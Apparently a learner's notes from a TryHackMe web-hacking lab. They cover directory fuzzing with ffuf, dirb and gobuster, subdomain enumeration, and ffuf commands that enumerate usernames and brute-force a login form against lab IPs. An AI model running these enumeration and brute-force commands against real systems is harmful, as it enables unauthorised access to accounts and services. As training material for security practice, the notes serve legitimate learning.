 ```
## for room.
ctrl+B for subtopic.
```

## Content Discovery
- Wappalyzer (https://www.wappalyzer.com/)
- The Wayback Machine (https://archive.org/web/)
- Automated Discovery https://github.com/danielmiessler/SecLists 
- ffuf,  “Fuzz Faster you Fool” 
- ``` user@machine$ ffuf -w /usr/share/wordlists/SecLists/Discovery/Web-Content/common.txt -u http://MACHINE_IP/FUZZ ```
- dirb 
- ``` user@machine$ dirb http://MACHINE_IP/ /usr/share/wordlists/SecLists/Discovery/Web-Content/common.txt ```
- gobuster
- ``` user@machine$ gobuster dir --url http://MACHINE_IP/ -w /usr/share/wordlists/SecLists/Discovery/Web-Content/common.txt ```

## Subdomain Enumeration
1. Certificate Transparency (CT) logs
- SSL/TLS Certificates. (https://crt.sh ; https://transparencyreport.google.com/https/certificates)
2. google search ```-site:www.tryhackme.com  site:*.tryhackme.com```
3. ``` dnsrecon -t brt -d acmeitsupport.thm ```
4. ``` ./sublist3r.py -d acmeitsupport.thm ```
5. private DNS server. "/etc/hosts" file (or c:\windows\system32\drivers\etc\hosts file for Windows users) 
6. ``` ffuf -w /usr/share/wordlists/SecLists/Discovery/DNS/namelist.txt -H "Host: FUZZ.acmeitsupport.thm" -u http://10.10.123.130 ```
7. ``` ffuf -w /usr/share/wordlists/SecLists/Discovery/DNS/namelist.txt -H "Host: FUZZ.acmeitsupport.thm" -u http://10.10.123.130 -fs {size} ``` -fs switch, which tells ffuf to ignore any results that are of the specified size.

## Authentication Bypass
**fuzz posibble exist usernames.**
- https://github.com/ffuf/ffuf
- ``` ffuf -w /usr/share/wordlists/SecLists/Usernames/Names/names.txt -X POST -d "username=FUZZ&email=x&password=x&cpassword=x" -H "Content-Type: application/x-www-form-urlencoded" -u http://10.10.94.177/customers/signup -mr "username already exists" ```
-  -X argument specifies the request method.
-  -d argument specifies the data that we are going to send.
-  -H argument is used for adding additional headers to the request. setting the "Content-Type" to the webserver knows we are sending form data. 
-  -u argument specifies the URL we are making the request to.
-  -mr argument is the text on the page we are looking for to validate we've found a valid username.

**brute force**
- ``` ffuf -w valid_usernames.txt:W1,/usr/share/wordlists/SecLists/Passwords/Common-Credentials/10-million-password-list-top-100.txt:W2 -X POST -d "username=W1&password=W2" -H "Content-Type: application/x-www-form-urlencoded" -u http://10.10.2.151/customers/login -fc 200 ```
- -fc argument to check for an HTTP status code other than 200.
